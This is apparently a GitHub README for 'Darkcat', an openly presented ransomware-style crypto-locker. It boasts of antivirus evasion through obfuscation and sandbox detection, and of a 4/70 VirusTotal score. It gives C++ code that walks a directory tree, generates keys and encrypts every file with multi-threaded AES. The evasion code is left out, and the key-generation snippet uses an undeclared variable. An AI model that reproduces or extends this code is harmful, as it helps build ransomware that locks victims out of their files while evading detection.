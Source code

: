 
**DISCLAIMER**: This tool is intended for educational purposes only.
The author assumes no responsibility or liability for any damages
caused by the execution of this algorithm, use at your own risk.

# DARKCAT Project - A Strong Prototype Crypto-Locker
Darkcat is an Open Source Crypto-locker directed at an audience with an interest in the field of Cyber Security. The locker is similar to how very obnoxious Ransomwares operate using 2-Layer Key Encryption with the intent of making it almost impossible to recover any key from memory even during the event of Encryption. It utilizes Multi-threaded 128-bit AES Encryption which makes it very fast with the cost of leaving somewhat of a footprint on the CPU for modern activity based Antivirus Softwares to pick up. My Kaspersky didn't detect any suspicious activity in most runs, especially ones that didn't involve lots of files, with that being said the algorithm logs keys on the console but doesn't save any, so use at your own risk.
```c
/*   -0-    ,    *     o    .     *    .    o    .  -O-   '  *  . o
 *  .  '     ____  ____  ____  _  __ ____  ____  _____  .  '  ,  *
 *     .  * /  _ \/  _ \/  __\/ |/ //   _\/  _ \/__ __\  *  . |  '
 *  *     . | | \|| / \||  \/||   / |  /  | / \|  / \  '  ,  o  '
 *  .  '    | |_/|| |-|||    /|   \ |  \_ | |-||  | | ' |   *   .
 *  '  *  . \____/\_/ \|\_/\_\\_|\_\\____/\_/ \|  \_/ *     .    o
 *  *    '  ,     '     .    -0-    .    *    .  ' |   ,   *    '
 * Alexander
 * Toepfer 2020
 */
```

![Preview](in-the-wild.gif)

## Summary
  1. AV Evasion techniques used to bypass Engines.
  2. Fetching files recursively from a given root directory.
  3. Generation of 128-bit Keys used for Encryption.
  4. Multi-threaded Encryption applied on sorted vector of files.

## AV Evasion techniques
The techniques used for AV Engine Evasion in Darkcat are Behaviour Obfuscation, Data Encryption and Sandbox Detection which make it fairly successful in dealing with most Engines that analyze the binary or execute it, but it is still far from perfect, as some elaborate AV Softwares using analysis based on Machine learning still detect malicious activity, which makes this implementation not FUD. In the following Code Snippets all of the above mentioned techniques will be left out, as otherwise the Source Code would be unreadable.

## Fetching files from directory
```c
    std::string path = "C:\\Path\\To\\Testfolder";
    /* First loop identifying files */
    std::vector< file > files;
    for( const auto& entry : std::filesystem::recursive_directory_iterator( path ) ) {
        if( std::filesystem::is_regular_file( entry.path() ) ) {
            /* Ignore any keyfiles in the directory */
            if( entry.path().filename() == keyfilestr )
                continue;
            /* Ignore certain files in certain modes */
            if( ( ( entry.path().extension() == fileExtension ) && encrypt ) ||
                ( ( entry.path().extension() != fileExtension ) && !encrypt ) )
                continue;
            file f( entry.path(), std::filesystem::file_size( entry.path() ) );
            /* Ignore files that are included already */
            if( std::find( files.begin(), files.end(), f ) != files.end() )
                continue;
            files.push_back( f );
        }
    }
    /* Sort by size with file.operator>() */
    std::sort( files.begin(), files.end() );
```
You could also do this with Boost instead of \<filesystem\> but it comes down to preference. You will also need to implement a file class for this implementation to work to store file information and for sorting, but that's not really a requirement, feel free to use an array of filesystem::path if that fits your needs.

## 128-bit Key Generation
```c
std::string randomString( size_t length ) {
    /* Function returning the charset used */
    const auto chset = charset();
    std::default_random_engine rng( std::random_device{}() );
    /* Uniformly distributed values on closed interval */
    std::uniform_int_distribution<> dist( 0, chset.size() - 1 );
    /* Function returning a random character from charset */
    auto randchar = [ chset, &dist, &rng ]() { return chset[ dist( rng ) ]; };
    std::generate_n( str.begin(), length, randchar );
    return str;
}
std::string key1 = randomString( 16 ), key2 = randomString( 16 );
```
You could also use rand() with modulo here to just generate n-indices for your charset but i prefer this solution even though seeding the random generator is a complete nightmare and the standard makes no guarantees about its quality, efficiency or repeatability between implementations.

## Multi-threaded Encryption
```c
/* Second loop alter files */
std::vector< std::thread > threads;
for( const auto& f : files ) {
    if( encrypt ) {
	    std::thread t( fileEncrypt,  f.path, key, iv );
		threads.emplace_back( std::move( t ) );
	}
	else ...
}
/* Wait for processes to finish */
for( int i = 0; i < threads.size(); ++i ) {
    threads[ i ].join();
}

/* Crypto++ encryption of std::string */
std::string stringEncrypt( std::string plain,
                           CryptoPP::byte key[ CryptoPP::AES::DEFAULT_KEYLENGTH ],
                           CryptoPP::byte iv[ CryptoPP::AES::BLOCKSIZE ] ) {
    std::string cipher;
    CryptoPP::AES::Encryption aesEncryption( key, CryptoPP::AES::DEFAULT_KEYLENGTH );
    CryptoPP::CBC_Mode_ExternalCipher::Encryption cbcEncryption( aesEncryption, iv );
    CryptoPP::StreamTransformationFilter stfEncryptor( cbcEncryption,
					               new CryptoPP::StringSink( cipher ) );
    stfEncryptor.Put( reinterpret_cast< const unsigned char* >( plain.c_str() ),
		      plain.length() );
    stfEncryptor.MessageEnd();
    return cipher;
}
```
For AES-128 I didn't make my own implementation here because the solution needs to be somewhat fast and reliable, but I can see making an adaptation could help with more AV Evasion in the long run so it's very tempting.

## Virustotal (4/70)

![Preview](virustotal-scan.gif)

## Copyright and license
Code and documentation copyright 2021 Alexander Töpfer. Code released under the MIT License
